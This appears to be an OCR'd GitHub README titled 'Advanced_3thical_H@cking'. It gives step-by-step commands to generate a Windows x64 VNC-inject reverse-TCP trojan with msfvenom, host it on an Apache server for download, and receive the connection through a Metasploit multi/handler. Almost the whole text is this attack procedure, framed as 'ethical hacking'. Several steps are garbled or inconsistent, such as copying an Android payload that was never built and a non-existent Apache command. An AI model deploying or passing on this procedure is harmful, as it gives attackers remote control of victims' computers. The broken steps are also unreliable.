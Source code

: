# Advanced_3thical_H@cking

## Exploit 1: Metasploit Trojan

This exploit demonstrates the use of Metasploit to deploy a Trojan on a Windows x64 system.

### Steps:
1. Gain root access:
    ```bash
    sudo -i root
    ```

2. Generate the payload using msfvenom:
    ```bash
    msfvenom -p windows/x64/vncinject/reverse_tcp LHOST=<ip addr> LPORT=<port number> -f exe -o payload.exe
    ```

3. Set up an Apache server to host the payload:
    ```bash
    apache2 > server host 
    ```

4. Move the Android payload to the server directory:
    ```bash
    cp androidpayload.apk /var/www/html
    ```

5. Clean up server files:
    ```bash
    sudo rm -f index.html index.nginx-debian.html
    ```

6. Launch Metasploit console:
    ```bash
    msfconsole
    ```

7. Configure the handler:
    ```bash
    use exploit/multi/handler
    set payload windows/x64/vncinject/reverse_tcp
    set LHOST <ip addr>
    set LPORT <port number>
    show options
    ```

8. Execute the exploit:
    ```bash
    exploit
    ```

9. If successful, the connection will be established to the RFB server using protocol version 3.8.
